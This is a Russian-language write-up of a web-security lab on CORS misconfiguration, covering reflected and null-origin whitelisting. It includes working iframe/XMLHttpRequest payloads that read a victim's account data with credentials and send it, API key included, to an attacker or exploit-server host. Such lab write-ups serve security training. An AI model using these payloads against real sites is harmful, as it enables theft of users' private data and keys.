

# CORS vulnerability with basic origin reflection

## Theory

<h3>Ошибки парсинга заголовков Origin</h3>

Некоторые приложения, поддерживающие доступ из нескольких источников, делают это с помощью белого списка разрешенных источников. При получении запроса CORS указанный источник сравнивается с белым списком. Если источник появляется в белом списке, он отражается в заголовке Access-Control-Allow-Origin, чтобы доступ был предоставлен. Например, приложение получает обычный запрос вида:


```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

Приложение сверяет предоставленный источник со своим списком разрешенных источников и, если он есть в списке, отражает источник следующим образом:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Ошибки часто возникают при реализации белых списков происхождения CORS. Некоторые организации решают разрешить доступ со всех своих поддоменов (включая будущие поддомены, которых еще не существует). А некоторые приложения разрешают доступ из различных доменов других организаций, включая их поддомены. Эти правила часто реализуются путем сопоставления префиксов или суффиксов URL или с использованием регулярных выражений. Любые ошибки в реализации могут привести к предоставлению доступа к непредусмотренным внешним доменам.

Например, предположим, что приложение предоставляет доступ ко всем доменам, оканчивающимся на:

```
normal-website.com
```

Злоумышленник может получить доступ, зарегистрировав домен:

```
hackersnormal-website.com
```

В качестве альтернативы предположим, что приложение предоставляет доступ ко всем доменам, начинающимся с

```
normal-website.com
```

Злоумышленник может получить доступ, используя домен:

```
normal-website.com.evil-user.net
```

<h3>Нулевое исходное значение из белого списка</h3>

Спецификация заголовка Origin поддерживает значение null.Браузеры могут отправлять значение null в заголовке Origin в различных необычных ситуациях:

* Перенаправления между источниками.
* Запросы из сериализованных данных.
* Запрос с использованием файла: протокол.
* Запросы из разных источников в песочнице.

Некоторые приложения могут внести в белый список нулевое происхождение для поддержки локальной разработки приложения. Например, предположим, что приложение получает следующий cross-origin запрос:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Ответ сервера:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

В этой ситуации злоумышленник может использовать различные приемы, чтобы сгенерировать cross-origin запрос, содержащий значение null в заголовке Origin. Это удовлетворит белый список, что приведет к междоменному доступу. Например, это можно сделать с помощью запроса перекрестного происхождения iframe в песочнице в форме:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:


Логинимся под имеющимися данными, сохраняя запросы в HTTP History.


После перехвата запроса и ответа, в ответе мы можем видеть заголовок, используемый в CORS, а именно **Access-Control-Allow-Credentials** и пользовательские данные.


Отправляем данный запрос в Repeater. Допишем в запрос заголовок Origin, значением которго будет **null** В ответе мы можем заметить новый заголовок **Access-Control-Allow-Origin**, который подтвержает доступ к ресурсам.


Теперь мы попробуем украсть пользовательские данные администратора. Для этого перейдет к exploit server.


Создадим вредоносную html страницу. Наш коод будет выглядеть следующим образом:


```
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://0aae00ea04bd6388c6483b5200840038.web-security-academy.net'
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-0a2700ea046e63cec6ef3a9d011800bf.exploit-server.net/log?key=' + xhr.responseText)
                }
            }
            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```

Сохраняем изменения и отправляем данный код жертве. В логах нашего сайта мы можем увидеть следующие строки:


Берем api ключ администратора и подтверждает ответ.



Получаем ответ от сервера.

